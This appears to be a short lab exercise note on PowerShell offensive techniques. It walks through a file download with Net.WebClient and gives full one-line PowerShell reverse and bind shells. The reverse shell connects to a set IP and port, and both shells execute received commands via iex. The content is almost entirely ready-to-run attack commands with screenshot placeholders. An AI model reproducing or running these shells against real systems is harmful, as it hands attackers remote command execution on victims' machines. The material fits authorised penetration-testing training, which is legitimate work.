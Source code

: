 # Task 2 Powershell

### **Powershell File Transfers**

* Create a file to be transfered

![](assets/1_powershell.jpg)

* Start python server

![](assets/2_powershell.jpg)

* Run below command

```text
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

![](assets/3_powershell.jpg)

### Powershell Reverse Shell

* Run the listener

![](assets/1_powershell_reverse_shell.jpg)

* Run the command in cmd

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.43.253',2222);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](assets/2_powershell_reverse_shell.jpg)

* We get the shell

![](assets/3_powershell_reverse_shell.jpg)

### Powershell Bind shell

![](assets/1_bind_shell_powershell.jpg)

```text
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

![](assets/2_bind_shell_powershell.jpg)


